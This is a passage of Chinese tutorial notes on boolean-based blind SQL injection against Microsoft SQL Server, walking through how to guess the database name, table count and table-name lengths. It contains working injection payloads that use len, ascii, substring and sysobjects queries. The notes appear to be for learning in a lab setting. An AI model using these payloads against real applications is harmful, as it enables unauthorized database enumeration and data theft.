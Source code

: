 - ascii()
- substring()
- count()
- len()

同mysql，一般注入流程为

- 求闭合字符
- 求当前数据库长度
- 求当前数据库ascii码值
- 求表名的数量
- 求表名的长度
- 求表名的ascii码值
- 求列名的数量
- 求列名的长度
- 求列名的ascii码值
- 求字段的数量
- 求字段的长度
- 求字段的ascii码值

求当前数据库长度
```sql
select * from users where id = '1' and len(db_name()) = 4 --+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_9sTtCWfv.png)

依次求解当前数据库的ascii码值，如果能猜字符可以不用ascii函数

```sql
select * from users where id = '1' and ascii(substring(db_name(),1,1)) = 116 --+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_6Pc0wIgr.png)

求当前数据库中表的个数

```sql
select * from users where id = '1' and 4 = (select count(*) from test..sysobjects where xtype='U')--+
-- test.information_schema.tables 包含视图 而 test..sysobjects where xtype = 'U' 只包含用户创建的表
select * from users where id = '1' and 6 = (select count(*) from test.information_schema.tables)--+
-- information_schema去除视图
select * from users where id = '1' and 4 = (select count(*) from test.information_schema.tables where table_type not in ('view'))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_xvRg9UG6.png)

求当前数据库表的长度

```sql
select * from users where id = '1' and 5 = (select top 1 len(name) from test..sysobjects where xtype='U')--+
-- 求第二个表
select * from users where id = '1' and 6 = (select top 1 len(name) from test..sysobjects where xtype='U' and len(name) not in(5))--+
-- 依次类推求完所有表的长度。。。
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_ydPu6MHX.png)

